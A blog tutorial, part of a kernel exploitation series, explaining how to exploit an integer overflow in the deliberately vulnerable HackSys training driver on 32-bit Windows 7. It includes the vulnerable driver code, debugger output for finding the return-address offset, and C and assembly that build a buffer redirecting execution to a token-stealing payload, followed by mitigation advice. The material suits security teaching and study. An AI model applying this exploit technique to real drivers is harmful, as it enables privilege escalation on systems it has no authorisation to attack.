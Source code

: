 ```yaml
---
layout: post
title: "[Intro to Kernel Exploitation] Part 5: Integer Overflow"
date: 2018-01-13 00:00:00
share: true
comments: true
description: Part 5 discusses a common vulnerability class called integer overflow.
tags: [Kernel Exploitation]
---
```


*This part shows how to exploit a vanilla integer overflow vulnerability. Post builds up on lots of contents from part 3 & 4 so this is a pretty short one.*

*Repo with exploits: [https://github.com/abatchy17/hacksys](https://github.com/abatchy17/hacksys)*

---

### 1. The vulnerability

Link to code [here](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/106e3dd5d9c49326d55ce17c919bffa68ead1467/Driver/IntegerOverflow.c#L65).

```cpp
NTSTATUS TriggerIntegerOverflow(IN PVOID UserBuffer, IN SIZE_T Size) {
    ULONG Count = 0;
    NTSTATUS Status = STATUS_SUCCESS;
    ULONG BufferTerminator = 0xBAD0B0B0;
    ULONG KernelBuffer[BUFFER_SIZE] = {0};
    SIZE_T TerminatorSize = sizeof(BufferTerminator);

    PAGED_CODE();

    __try {
        // Verify if the buffer resides in user mode
        ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(KernelBuffer));

        DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
        DbgPrint("[+] UserBuffer Size: 0x%X\n", Size);
        DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
        DbgPrint("[+] KernelBuffer Size: 0x%X\n", sizeof(KernelBuffer));

#ifdef SECURE
        // Secure Note: This is secure because the developer is not doing any arithmetic
        // on the user supplied value. Instead, the developer is subtracting the size of
        // ULONG i.e. 4 on x86 from the size of KernelBuffer. Hence, integer overflow will
        // not occur and this check will not fail
        if (Size > (sizeof(KernelBuffer) - TerminatorSize)) {
            DbgPrint("[-] Invalid UserBuffer Size: 0x%X\n", Size);

            Status = STATUS_INVALID_BUFFER_SIZE;
            return Status;
        }
#else
        DbgPrint("[+] Triggering Integer Overflow\n");

        // Vulnerability Note: This is a vanilla Integer Overflow vulnerability because if
        // 'Size' is 0xFFFFFFFF and we do an addition with size of ULONG i.e. 4 on x86, the
        // integer will wrap down and will finally cause this check to fail
        if ((Size + TerminatorSize) > sizeof(KernelBuffer)) {
            DbgPrint("[-] Invalid UserBuffer Size: 0x%X\n", Size);

            Status = STATUS_INVALID_BUFFER_SIZE;
            return Status;
        }
#endif

        // Perform the copy operation
        while (Count < (Size / sizeof(ULONG))) {
            if (*(PULONG)UserBuffer != BufferTerminator) {
                KernelBuffer[Count] = *(PULONG)UserBuffer;
                UserBuffer = (PULONG)UserBuffer + 1;
                Count++;
            }
            else {
                break;
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        Status = GetExceptionCode();
        DbgPrint("[-] Exception Code: 0x%X\n", Status);
    }

    return Status;
}
```

Like the comment says, this is a vanilla integer overflow vuln caused by the programmer not considering a very large buffer size being passed to the driver. Any size from `0xfffffffc` to ``0xffffffff` will cause this check to be bypassed. Notice that the copy operation terminates if the terminator value is encountered (has to be 4-bytes aligned though), so we don't need to submit a buffer length of size equal to the one we pass.


#### Exploitability on 64-bit 

The `InBufferSize` parameter passed to `DeviceIoControl` is a DWORD, meaning it's always of size 4 bytes. In the 64-bit driver, the following code does the comparison:

At `HEVD!TriggerIntegerOverflow+97`:
```
fffff800`bb1c5ac7 lea     r11,[r12+4]
fffff800`bb1c5acc cmp     r11,r13
```

Comparison is done with 64-bit registers (no prefix/suffix was used to cast them to their 32-bit representation). This way, `r11` will never overflow as it'll be just set to `0x100000003`, meaning that this vulnerability is **not exploitable** on 64-bit machines.

---

### 2. Controlling execution flow

First, we need to figure out the offset for EIP. Sending a small buffer and calculating the offset between the kernel buffer address and the return address will do:

```
kd> g
[+] UserBuffer: 0x00060000
[+] UserBuffer Size: 0xFFFFFFFF
[+] KernelBuffer: 0x8ACF8274
[+] KernelBuffer Size: 0x800
[+] Triggering Integer Overflow
Breakpoint 3 hit
HEVD!TriggerIntegerOverflow+0x84:
93f8ca58 add     esp,24h

kd> ? 0x8ACF8274 - @esp
Evaluate expression: 16 = 00000010
kd> ? (@ebp + 4) - 0x8ACF8274
Evaluate expression: 2088 = 828
```

Notice that you need to have the terminator value 4-bytes aligned as otherwise it will use the submitted `Size` parameter which will ultimately result in reading beyond the buffer and possibly causing an access violation.

Now we know that RET is at offset **2088**. The terminator value should be at `2088 + 4`.

```cpp
char* uBuffer = (char*)VirtualAlloc(
	NULL,
	2088 + 4 + 4,               // EIP offset + 4 bytes for EIP + 4 bytes for terminator
	MEM_COMMIT | MEM_RESERVE,
	PAGE_EXECUTE_READWRITE);

// Constructing buffer
RtlFillMemory(uBuffer, SIZE, 'A');

// Overwriting EIP
DWORD* payload_address = (DWORD*)(uBuffer + SIZE - 8);
*payload_address = (DWORD)&StealToken;

// Copying terminator value
RtlCopyMemory(uBuffer + SIZE - 4, terminator, 4);
```

That's pretty much it! At the end of the payload (`StealToken`) you need to make up for the missing stack frame by calling the remaining instructions (explained in detail in part 3).

```nasm
pop ebp								; Restore saved EBP
ret 8								; Return cleanly
```

![shell]({{ "/images/kernel6.png" | absolute_url }})

Full exploit can be found [here](https://github.com/abatchy17/hacksys/tree/master/Win7_x86_SP1/IntegerOverflow).

### 3. Mitigating the vulnerability

1. Handle all code paths that deal with arithmetics with extreme care (especially when they're user-supplied). Check operants/result for overflow/underflow condition.

2. Use an integer type that will be able to hold all possible outputs of the addition, although this might not be always possible.


[SafeInt](http://safeint.codeplex.com/) is worth checking out too.

### 4. Recap

1. Vulnerability was not exploitable on 64-bit systems due to the way the comparison takes place between two 64-bit registers and the maximum value passed to `DeviceIoControl` will never overflow.

2. Submitted buffer had to contain a 4-byte terminator value. This is the simplest form of crafting a payload that needs to meet certain criteria.

3. Although our buffer wasn't of extreme size, "lying" about its length to the driver was possible.

---

\- Abatchy